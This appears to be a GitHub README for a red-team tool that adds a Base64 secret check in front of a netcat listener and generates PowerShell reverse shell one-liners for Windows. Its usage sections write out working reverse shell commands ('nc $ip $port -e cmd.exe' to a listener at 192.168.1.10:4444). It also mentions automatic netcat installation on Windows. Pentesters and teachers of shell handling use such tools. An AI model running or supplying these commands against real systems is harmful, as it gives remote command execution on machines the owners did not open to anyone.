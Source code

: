 # 🔐 Netcat Authenticator Tool

A lightweight Python-based tool that adds an **authentication layer over Netcat** before granting reverse shell access — all over a single port. This utility is built for **red teamers, penetration testers, and security researchers** who need secure shell access from Windows to Kali/Linux machines.

---

## ⚙️ Features

- ✅ Authentication before shell access using Base64 secrets  
- ✅ Single-port operation: both authentication and shell happen on the same port  
- ✅ PowerShell reverse shell command generator for Windows clients  
- ✅ Automatic Netcat installation on Windows if it's missing  
- ✅ Clean and simple CLI interface  
- ✅ Supports exit mechanism and proper session handling  

---

## 🧠 Use Case

In typical Netcat reverse shells, anyone connecting to a listener gets instant access — **this tool prevents that by requiring a secret key** to authenticate the client. Only after the correct key is sent will the listener allow the shell to connect.

This can be helpful for:

- Red team operations where stealth and access control are critical  
- Teaching secure shell handling with minimal setup  
- Preventing unintended access on open listeners during internal testing  

---

## 📦 Requirements

- Python 3.x  
- Netcat (`nc`) must be available on the Kali system  
- Admin privileges on Windows (for installation)
- Standard Python libraries used:
    argparse, base64, socket, signal, sys, subprocess, os, shutil

  
---

## 🚀 Installation

Clone the repo:

```bash
git clone https://github.com/yourusername/netcat-authenticator.git
cd netcat-authenticator
```

---

## 🛠️ Usage

### 1. Generate PowerShell One-liner for Client (Windows)

This command generates a PowerShell one-liner that can be run on a Windows machine to authenticate and get shell access:

```bash
python3 Nectcat_Authenticator.py --mode generate --secret YOUR_SECRET --ip YOUR_KALI_IP --port 4444
```

📌 Output Example:

```powershell
powershell -command "$ip='192.168.1.10';$port=4444;$b='c2VjcmV0MTIz';$resp=echo $b|nc $ip $port;if($resp -match 'OK'){nc $ip $port -e cmd.exe}else{exit}"
```

---

### 2. Start Listener on Kali (Linux)

This command starts the secure listener on Kali Linux:

```bash
python3 Nectcat_Authenticator.py --mode listen --secret YOUR_SECRET --port 4444
```

🖥️ The tool will:

- Wait for incoming connections  
- Verify the Base64-encoded secret  
- Only if correct, start the actual shell listener on the same port  

---

## 🔐 Example Workflow

**Step 1 (on Kali):**
```bash
python3 Nectcat_Authenticator.py --mode listen --secret test123 --port 4444
```

**Step 2 (on Windows):**
Run the generated one-liner in PowerShell:

```powershell
powershell -command "$ip='192.168.1.10';$port=4444;$b='dGVzdDEyMw==';$resp=echo $b|nc $ip $port;if($resp -match 'OK'){nc $ip $port -e cmd.exe}else{exit}"
```

---

## 🧩 How It Works

- Listener waits on a single port for authentication  
- Client sends a Base64-encoded secret  
- If it matches, the server sends an OK response  
- Client then connects again on the same port to spawn `cmd.exe`  
- If authentication fails, connection is closed immediately  

---

## ❗ Disclaimer

⚠️ This tool is intended strictly for educational and authorized security testing purposes only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.
